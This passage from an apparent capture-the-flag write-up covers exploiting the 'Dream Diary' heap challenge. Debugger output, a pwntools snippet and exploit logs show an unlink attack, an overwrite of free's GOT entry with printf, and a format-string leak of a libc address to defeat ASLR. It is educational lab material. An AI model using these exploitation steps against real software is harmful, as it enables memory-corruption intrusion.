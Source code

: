 ```r
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
>> $  


[..snip..]
0x0000000000400710  printf@plt
gef➤  got

GOT protection: Partial RelRO | GOT functions: 11
 
[0x602018] free@GLIBC_2.2.5  →  0x400710
```
As you can see, we successfully overwritten the `free@got` with the PLT address of the `printf`. Now, we have the `printf`, as from the reverse engineering, we know that the free is done like `free(ptr[index])`, as the `free` is now `printf`, now it'll do the `printf(ptr(index])`, as obvious it should be we have a format string vulnerability now, we can leak a LIBC address to defeat ASLR.

```py
log.info("Getting __libc_start_main")
allocate(0x88, "%15$p")
delete(4)
p.recvline()
libc_start_main = int(p.recvline().strip(b"\n"), 16)
log.info("__libc_start_main+240:    0x%x" %(libc_start_main))
libc.address = libc_start_main - 240 - libc.function("__libc_start_main")

log.info("LIBC                 :    0x%x" %(libc.address))
```

Running the exploit now, we will have the LIBC leak:-

```py
0 [13:26:50] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2449
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Changing freegot to print@plt for LIBC Leak
[*] Getting __libc_start_main
[*] __libc_start_main+240:    0x7f01b54d3840
[*] LIBC                 :    0x7f01b54b3010
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
```